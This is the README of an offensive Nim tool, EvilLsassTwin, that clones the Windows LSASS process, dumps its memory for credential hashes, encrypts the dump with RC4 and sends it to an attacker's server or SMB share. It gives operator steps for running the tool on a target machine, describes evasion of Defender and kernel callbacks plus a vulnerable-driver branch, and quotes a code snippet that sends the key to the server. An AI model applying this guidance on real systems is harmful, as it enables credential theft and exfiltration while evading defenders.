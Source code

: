 # Evil Lsass Twin
Originally, a port of the [Dirty Vanity](https://github.com/deepinstinct/Dirty-Vanity) project to fork and dump the LSASS process. Has been updated upon further research to attempt to duplicate open handles to LSASS. If this fails (and it likely will), it will attempt to obtain a handle to LSASS through the `NtGetNextProcess` function instead of `OpenProcess`/`NtOpenProcess`. 

Nim, by default (or rather the Winim module) makes use of dynamic function resolution for Windows API functions, ~~so the IAT should only include a reference to GetProcAddress and LoadLibrary (for better or worse)~~ so the IAT will only contain certain functions standard across all Nim executables.

The process cloning functionality has been updated to use make use of `NtCreateProcessEx` instead of `RtlCreateProcessReflection` as this only requires `PROCESS_CREATE_PROCESS` and does not create an initial thread (thereby triggering process creation kernel callbacks). 

Partial implementation of Process Ghosting technique is included to make use of the Delete On Close functionality. 

How this works: 
1. `MiniDumpWriteDump` function is used to dump forked LSASS process's memory into a file on-disk.
2. File is marked with Delete on Close and does not allow other threads to access it simultaneously.
3. File is mapped into memory
4. File is deleted after open handle to it is closed
5. Mapped Data (memory dump) is encrypted and saved to disk *or* sent to server

This will only occur if the tool is set to use the standard Win32 `MiniDumpWriteDump` API function. By default, EvilLsassTwin uses a custom minidump function that will keep the data in memory unless set to save to disk. This allows EvilLsassTwin to keep the dump size to a minimum. 

Requires the `winim` and `ptr_math` modules. Several IOCs and opportunities for detection since this simple port was not originally built with stealth in mind. However, as noted above, this project _does_ include some stealthy features. 

Tested on Windows 10 22H2 and Windows 11 with Defender enabled (Cloud Analysis disabled).

Must be run from an Administrator Command Prompt or Powershell as EvilLsassTwin depends on `SeDebugPrivilege`. 

_Note: SeDebugPrvilege is enabled by default on Elevated Powershell._

_Note: Tool will **not** work against PPL (try the PPL branch) or Credential Guard. Tool also will not work when EDRs patch LSASS a la [Cortex XDR Modifications](https://www.paloaltonetworks.com/blog/security-operations/detecting-credential-stealing-with-cortex-xdr/)_

# Usage
This project was developed and tested with Nim 1.6.10 and 1.6.14. It is **not** compatible with Nim 2.0.

1. Install Dependencies with `nim dependencies` or through Nimble package manager (Atlas not yet tested)
2. Configure settings from lines 15 to 25. Settings include Server IP and Port, SMB Share Name, saving to disk, minidump method (*set to either **useCustom** or **useTraditional***), and exfil method (*set to either **useRaw** or **useSMB***)
4. Compile the project with `nim build`. _Note: this assumes EvilTwinServer will be run on a Linux machine. Manual compilation required otherwise_
5. If **not** set to save to file: `chmod +x EvilTwinServer && ./EvilTwinServer`
6. Transfer EvilLsassTwin.exe to (Windows) target machine and Run.

# Why's
## Why RC4?
Simplicity. A simple call to `SystemFunction032` is all it takes to implement. Nothing else to code. Entropy isn't sky-high. And it's good enough.

## Why code changes instead of command-line parameters?
First, I don't like Nim's command-line parsing options. Second, if you can't make those simple changes to the code, you probably shouldn't be using this. Third, no command-line parameters means no need for command-line spoofing. Fourth, every code modification, no matter how big or small also changes the file hash. Not a huge "win", but I'll take it.

## Why Nim?
I wrote an entire blog post about this. See: [Why Nim? - RePRGM](https://reprgm.github.io/2023/02/13/why-nim/)

## Why a PPL branch?
BYOVD is a cool technique but it has it's downsides. For one, the vulnerable driver is included in and extracted from the `EvilLsassTwin` executable to make things simpler. Those bytes could be flagged by AV/EDR. The vulnerable driver itself is also on the Microsoft Driver Blocklist so that is another potential issue. Not to mention, an unknown executable is attempting to install a known-vulnerable driver. Then, there's the file creation for the driver and the subsequent creation of a (driver) service. 

So, yeah. High-risk, high-reward. I thought it would be better to keep all of that in a separate branch.

# Important Notes
By default, EvilLsassTwin *will* use RC4 to encrypt the dump and display the encryption key in hexadecimal in the console. EvilTwinServer will attempt to decrypt the dump file automatically for you. However, if this fails, you will have to decrypt the file yourself. This can be done with OpenSSL. Take note of the command used in either the terminal (if running) or in the `EvilTwinServer.nim` file!

Alternatively, if you **don't** want a console screen popping up on the target machine, a "headless" build can be done. Take note of the build command in the `config.nims` file and add option `--app:gui`. Doing so will require you to either use EvilTwinServer or create a custom script/application. This is due to EvilLsassTwin sending the encryption key and then the dump in that order. Should another application be used without modification to the `EvilLsassTwin.nim` file, both encryption key and data are likely to be included in the same file, rendering the dump file useless without even further modification. 

EvilTwinServer is **not** required with a standard build. With a simple change to the `EvilLsassTwin.nim` file, another application may be used to receive the encrypted dump file. To do so, simply comment out or remove the following lines: 
```nim
echo "[!] Sending Encryption Key to Server..."
        if not socket.trySend(rc4KeyStr):
            echo "[-] Could Not Send Encryption Key to Server!"
```

Also of note, the custom minidump function is not complete as of now. This means **only** NTLM hashes will be found by tools such as Mimikatz and Pypykatz. For anything else, you will need to configure the tool to use the `MiniDumpWriteDump` function which also will result in large (~50+ MB) dump files. It is because this custom function is not complete that the option to use the traditional API function is there.

Lastly, the tool has **not** been tested being loaded reflectively. If this is what you want, a quote from @byt3bl33d3r on the [Offensive Nim](https://github.com/byt3bl33d3r/OffensiveNim) page:

> By default, Nim doesn't generate PE's with a relocation table which is needed by most tools that reflectively load EXE's.

> To generate a Nim executable with a relocation section you need to pass a few additional flags to the linker.

> Specifically: --passL:-Wl,--dynamicbase

> Full example command:

> `nim c --passL:-Wl,--dynamicbase my_awesome_malwarez.nim`

# Resources
[Bill Demirkapi - Abusing Windows Implemention of Fork for Stealthy Memory Operations](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)

[Dirty Vanity](https://github.com/deepinstinct/Dirty-Vanity)

[TransactedSharpMiniDump](https://github.com/PorLaCola25/TransactedSharpMiniDump/tree/master)

[Rasta Mouse - Dumping LSASS with Duplicated Handles](https://rastamouse.me/dumping-lsass-with-duplicated-handles/)

[Rasta Mouse - Duplicating Handles in C#](https://rastamouse.me/duplicating-handles-in-csharp/)

[Splintercod3 - The Hidden Side of Seclogon - Part 2](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html)

[Diversenok - The Definitive Guide to Process Cloning on Windows](https://diversenok.github.io/2023/04/20/Process-Cloning.html)

[NativeDump](https://github.com/ricardojoserf/NativeDump)

[NanoDump](https://github.com/fortra/nanodump)
